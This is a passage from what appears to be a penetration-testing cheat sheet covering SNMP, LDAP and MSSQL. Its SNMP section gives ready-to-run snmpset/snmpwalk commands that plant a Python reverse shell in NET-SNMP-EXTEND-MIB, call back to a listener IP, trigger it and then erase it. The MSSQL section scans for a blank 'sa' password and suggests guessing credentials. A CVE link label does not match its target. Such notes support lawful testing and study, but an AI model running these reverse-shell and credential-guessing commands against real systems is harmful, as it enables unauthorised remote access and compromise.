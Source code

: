 When using the `-m +ALL` argument, I got the error:

```
Bad operator (INTEGER): At line 73 in /usr/share/snmp/mibs/ietf/SNMPv2-PDU
```

There is a typo in the file that gets pulled by `snmp-mibs-downloader`. The fix is to replace the existing file with a corrected version, which is located [here](http://pastebin.com/raw/p3QyuXzZ).


### 2.13.2 RCE with SNMP

See [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce)

Easy library to do this: [https://github.com/mxrch/snmp-shell.git](https://github.com/mxrch/snmp-shell.git)

```sh
# manually create reverse shell (update listener IP)
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c private $VICTIM_IP 'nsExtendStatus."derp"' = createAndGo 'nsExtendCommand."derp"' = /usr/bin/env 'nsExtendArgs."derp"' = 'python -c "import sys,socket,os,pty;os.fork() and sys.exit();os.setsid();os.fork() and sys.exit();s=socket.create_connection((\"10.10.14.14\",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")"'

# trigger reverse shell by reading the OID
snmpwalk -v2c -c private $VICTIM_IP NET-SNMP-EXTEND-MIB::nsExtendObjects

# delete the reverse shell command from the SNMP table
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c private $VICTIM_IP 'nsExtendStatus."derp"' = destroy
```

This abuses the NET-SNMP-EXTEND-MIB functionality. See [technical writeup](https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/)


## 2.14 LDAP(s) - 389,636

TODO


## 2.15 MSSQL - 1443

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It supports storing and retrieving data across a network (including the Internet).

```sh
# check for known vulns
searchsploit "microsoft sql server"

# if you know nothing about it, try 'sa' user w/o password:
nmap -v -n --script="safe and ms-sql-*" --script-args="mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER" -sV -p 1433 -oA nmap/safe-ms-sql $VICTIM_IP
# if you don't have creds, you can try to guess them, but be careful not to block
# accounts with too many bad guesses
```

See [MSSql Interaction](#4142-mssql-interaction) for how to connect, interact.


[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744